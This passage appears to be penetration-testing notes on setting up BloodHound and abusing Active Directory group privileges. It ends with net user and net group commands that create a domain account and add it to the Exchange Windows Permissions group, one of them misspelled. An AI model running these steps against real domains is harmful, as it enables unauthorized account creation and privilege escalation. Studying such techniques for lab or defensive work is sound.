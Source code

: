 -   Run `sudo neo4j console`, which opens the `neo4j` web interface
-   Log in at `http://127.0.0.1:7474/` with username/password “neo4j”/”neo4j”. You’ll have to change your password on login. Close the window (but don’t exit `neo4j` in the console).
-   Run `bloodhound` from a new terminal window. Log in with the creds you just set
-   Click on the “Upload Data” button or Drag n Drop the zip file.

[Usage](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux#sharphound)

- "Show Path from owned principles" slected and right click on link betweem them to get info for abuse

> Account Operators has Generic All privilege on the Exchange Windows Permissions group

- Before Doing any exploitation make your own user account from current privilege account
	```
	# add user
	net user x3rz x3rz@123 /add /domain
	# list users
	net users
	# put our user to excahnge windows permissions
	net group "Exchange Windows Permissions"
	net group "Exchainge Windows Pemissions" /add x3rz
	
	
	
	```